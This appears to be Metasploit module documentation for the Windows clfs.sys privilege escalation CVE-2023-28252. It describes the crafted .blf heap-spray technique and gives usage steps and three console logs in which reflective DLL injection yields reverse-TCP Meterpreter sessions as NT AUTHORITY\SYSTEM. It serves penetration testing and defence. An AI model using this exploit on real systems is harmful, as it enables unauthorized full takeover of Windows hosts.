 ## Vulnerable Application

A privilege escalation vulnerability exists in the clfs.sys driver which comes installed by default on
Windows 10 21H2, Windows 11 21H2 and Windows Server 2022 (Build 20348) operating systems. 

The clfs.sys driver contains a function CreateLogFile that is used to create
open and edit '*.blf' (base log format) files. Inside a .blf file there are multiple blocks of data which
contain checksums to verify the integrity of the .blf file and to ensure the file looks and acts like a
.blf file. However, these files can be edited with CreateFileA or with fopen and then modified with
WriteFile or fwrite respectively in order to change the contents of the file and update their checksums accordingly.

This exploit makes use to two different kinds of specially crafted .blf files that are edited using the technique
mentioned above. There are multiple spray .blf files. The spray .blf files are specially crafted to initiate an out of
bounds read which reads from a contiguous block of memory. The block of memory it reads from contains a read-write pipe
that points to the address of the second type of .blf file - the trigger .blf file. The trigger .blf file is specially 
crafted read the SYSTEM token and write it in the process of the exploit to achieve the local privilege escalation.

The exploits creates a controlled memory space by first looping over the CreatePipe function to
to create thousands of read-write pipes (which take up 0x90 bytes of memory). It then releases a certain number of
pipes from memory and calls CreateLogFile to open the pre-existing spray .blf files which when being opened fill the
0x90 byte gaps created by the deallocation of the pipes in memory, creating the controlled memory space.

This is a very brief and high overview description of what the exploit is actually doing. For a more detailed and in
depth analysis please refer to the following [reference](https://github.com/fortra/CVE-2023-28252).

### Installation And Setup
Windows 11 versions 21H2 are vulnerable out of the box.
This exploit module has been tested on Windows 11 versions 21H2 build 22000.

## Options  

## Verification Steps

1. Start msfconsole
1. Get a Meterpreter session on a vulnerable host
1. Do: `use windows/local/cve_2023_28252_clfs_driver`
1. Set the `SESSION` and `PAYLOAD` options
1. Do: `run`
1. You should get a privileged session.

## Scenarios

### Windows Server 2022 Build 20348 x64
```
msf exploit(multi/handler) > use windows/local/cve_2023_28252_clfs_driver
[*] Using configured payload windows/x64/meterpreter/reverse_tcp
msf exploit(windows/local/cve_2023_28252_clfs_driver) > run

[*] Started reverse TCP handler on 172.16.199.1:4443
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. The target is running windows version: 10.0.20348.0 which has a vulnerable version of clfs.sys installed by default
[*] Launching msiexec to host the DLL...
[+] Process 6080 launched.
[*] Reflectively injecting the DLL into 6080...
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Sending stage (200774 bytes) to 172.16.199.134
[*] Meterpreter session 11 opened (172.16.199.1:4443 -> 172.16.199.134:49864) at 2023-07-31 13:44:35 -0400

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : WIN-2EEL7BRDUD8
OS              : Windows 2016+ (10.0 Build 20348).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x64/windows
meterpreter >
```

### Windows 11 Version 21H2 Build 22000 x64
```
msf exploit(windows/local/cve_2023_28252_clfs_driver) > sessions -i 1
[*] Starting interaction with 1...
msf exploit(windows/local/cve_2023_28252_clfs_driver) > rexploit
[*] Reloading module...

[*] Started reverse TCP handler on 172.16.199.1:4443
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. The target is running windows version: 10.0.22000.0 which has a vulnerable version of clfs.sys installed by default
[*] Checking compatibility
[*] Launching netsh to host the DLL...
[+] Process 9124 launched.
[*] Reflectively injecting the DLL into 9124...
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Sending stage (200774 bytes) to 172.16.199.132
[*] Meterpreter session 4 opened (172.16.199.1:4443 -> 172.16.199.132:49894) at 2023-07-31 11:24:01 -0400

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : MSFDEVICE
OS              : Windows 10 (10.0 Build 22000).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter >
```

### Windows 10 Version 19042 x64
```
msf exploit(multi/handler) > use windows/local/cve_2023_28252_clfs_driver
msf exploit(windows/local/cve_2023_28252_clfs_driver) > run

[*] Started reverse TCP handler on 172.16.199.1:4443
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. The target is running windows version: 10.0.19042.0 which has a vulnerable version of clfs.sys installed by default
[*] Launching netsh to host the DLL...
[+] Process 4888 launched.
[*] Reflectively injecting the DLL into 4888...
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Sending stage (200774 bytes) to 172.16.199.131
[*] Meterpreter session 13 opened (172.16.199.1:4443 -> 172.16.199.131:49840) at 2023-07-31 14:34:37 -0400

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : DESKTOP-8ATHH6O
OS              : Windows 10 (10.0 Build 19042).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter >
```
